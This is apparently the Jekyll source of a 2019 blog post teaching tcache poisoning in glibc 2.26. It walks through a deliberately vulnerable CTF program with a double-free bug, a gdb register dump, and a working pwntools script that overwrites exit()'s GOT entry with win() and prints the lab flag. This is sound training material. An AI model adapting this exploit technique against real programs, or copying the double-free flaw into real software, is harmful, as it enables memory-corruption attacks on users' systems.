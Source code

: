 ```yaml
---
layout: post
title:  "Tcache Poisoning [heap exploitation]"
date:   2019-09-09 03:59:00
categories: experience
---
```



# Tcache Poisoning
what is tcache poisoning ? 
In glibc-2.26, TCache (per-thread cache), a new feature, was introduced in malloc.
and tcache poisoning is a technique to poison Tcache feature in glibc-2.26. for example from how2heap by shellpish team 

	This file demonstrates a simple tcache poisoning attack by tricking malloc into
	returning a pointer to an arbitrary location (in this case, the stack).
	The attack is very similar to fastbin corruption attack.

	The address we want malloc() to return is 0x7ffedaf11040.
	Allocating 1 buffer.
	malloc(128): 0x55a2b964b260
	Freeing the buffer...
	Now the tcache list has [ 0x55a2b964b260 ].
	We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55a2b964b260
	to point to the location to control (0x7ffedaf11040).
	1st malloc(128): 0x55a2b964b260
	Now the tcache list has [ 0x7ffedaf11040 ].
	2nd malloc(128): 0x7ffedaf11040
	We got the control

for another example we will try to exploit this simple program, by using tcache poisoning:

{% highlight c %}
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

#define SZ_BLOCK 200
#define SZ_HEAP  10
#define SZ_FLAG 100

char a[100];
u_int *(buf);

void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}

void welcome(){
puts("     __                      __                           _                      _              ");
puts("    / /_ _____ ____ _ _____ / /_   ___     ____   ____   (_)_____ ____   ____   (_)____   ____ _");
puts("   / __// ___// __ `// ___// __ \\ / _ \\   / __ \\ / __ \\ / // ___// __ \\ / __ \\ / // __ \\ / __ `/");
puts("  / /_ / /__ / /_/ // /__ / / / //  __/  / /_/ // /_/ // /(__  )/ /_/ // / / // // / / // /_/ / ");
puts("  \\__/ \\___/ \\__,_/ \\___//_/ /_/ \\___/  / .___/ \\____//_//____/ \\____//_/ /_//_//_/ /_/ \\__, /  ");
puts("       HackerClass Gunadarma @2019     /_/        author: arsalan (tripoloski)         /____/   ");
}

void menu(){
	puts("+---------------------+");
	puts("|         Menu        |");
	puts("+---------------------+");
	puts("| 1. allocate memory  |");
	puts("| 2. freeing memory   |");
	puts("| 3. exit             |");
	puts("+---------------------+");
	printf("| select [1-3] : ");
}

void init(){
	setvbuf(stdout, 0 , 2 , 0);
	setvbuf(stdin, 0 , 2 , 0);
}

void create_memory(){
	int size;
	printf("[?] size : ");
	//read(0,size , sizeof(size));
	scanf("%d" , &size);
	printf("[?] data : ");
	if (size <= 0x88){
		buf = malloc(size);
		read(0,buf , size);
	}
	puts("[+] memory allocated!");
}

void release_memory(){
	free(buf);
}

void main(){
	init();
	char buf[4];
	welcome();
	while(1){
		menu();
		read(0 , buf , sizeof(buf));
		switch(atoi(buf)){
			case 1:
				create_memory();
				break;
			case 2:
				release_memory();
				break;
			case 3:
				puts("[+] exiting...");
				exit(0);
				break;
			default:
				puts("[!] invalid choice error code 1902");
				break;
		}
	}
}
{% endhighlight %}


you can find this challenge on my repository [here](https://github.com/tripoloski1337/learn-to-pwn/tree/master/tcache_poisoning) in this case we have to allocating memory and double freeing , since there's no checks for double free on glibc-2.26+. so we can directly do double free, after that we can allocate memory and fill it with whatever we want. at this point we already controll the rdx register. 

	malloc(0x100)
	free(0)
	free(0)
	malloc(0x100) <------ control rdi
	malloc(0x100) <------ just a padding
	malloc(0x100) <------ another control 

### how can it be ?
if you look into gdb there's something interesting at address **<malloc+407>**

     → 0x7ffff7a7b207 <malloc+407>     mov    rdi, QWORD PTR [rdx]

this instruction will mov rdx value to rdi. it's mean it will move whatever value is from rdx to rdi register. and suddenly our rdx is filled with our input before

    $rax   : 0x5
    $rbx   : 0x64
    $rcx   : 0x0000000000602010  →  0x0000000000000000
    $rdx   : 0x4141414141414141 ("AAAAAAAA"?) <----- our input data from the seccond malloc
    $rsp   : 0x00007fffffffe320  →  0x0000000000400dd1  →  "+---------------------+"
    $rbp   : 0xffffffffffffffb0
    $rsi   : 0x0000000000602038  →  0x0000000000000000
    $rdi   : 0x64
    $rip   : 0x00007ffff7a7b207  →  <malloc+407> mov rdi, QWORD PTR [rdx]
    $r8    : 0xb
    $r9    : 0x0
    $r10   : 0x00007ffff7b82cc0  →  0x0002000200020002
    $r11   : 0x246
    $r12   : 0x0000000000400740  →  <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe460  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0

in this case we can GOT overwrite from exit() function to win() function 

{% highlight c %}
	case 3:
		puts("[+] exiting...");
		exit(0); <-- our goal to change it to win()
		break;
{% endhighlight %}

to make it more clear and reliable i made a python script to exploit this binary 

{%highlight python%}

from pwn import *
r = process("./tcache_poisoning")

def alloc(size,data ):
	r.sendlineafter("| select [1-3] :","1")
	r.sendlineafter("[?] size :",str(size))
	r.sendlineafter("[?] data :",data)
	log.info("allocating")

def free():
	r.sendlineafter("| select [1-3] :","2")
	log.info("freeing")

win_plt = 0x0000000000400827
exit_got = 0x000000601348
#gdb.attach(r)
alloc(0x28,"A"*8)

free()
free()

alloc(0x28,p64(exit_got))
alloc(0x28,p8(0x00))
alloc(0x28,p64(win_plt)) 

r.interactive()

{% endhighlight %}

after running this python script we can select option 3 to trigger exit(). and exit() is not the real exit() function anymore it was win() function, because we GOT overwrite it

	[+] Starting local process './tcache_poisoning': pid 28800
	[*] allocating
	[*] allocating
	[*] freeing
	[*] freeing
	[*] allocating
	[*] allocating
	[*] allocating
	[*] Switching to interactive mode
	 [+] memory allocated!
	+---------------------+
	|         Menu        |
	+---------------------+
	| 1. allocate memory  |
	| 2. freeing memory   |
	| 3. exit             |
	+---------------------+
	| select [1-3] : $ 3
	[+] exiting...
	ctf{y0u_must_b3_a_pwnerrrr!!!!!}

as you can see there's string ***ctf{y0u_must_b3_a_pwnerrrr!!!!!}***. it mean our win() function has been called and give us data from file flag.txt, you can see what win() actually do here
{% highlight c %}
void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}
{% endhighlight %}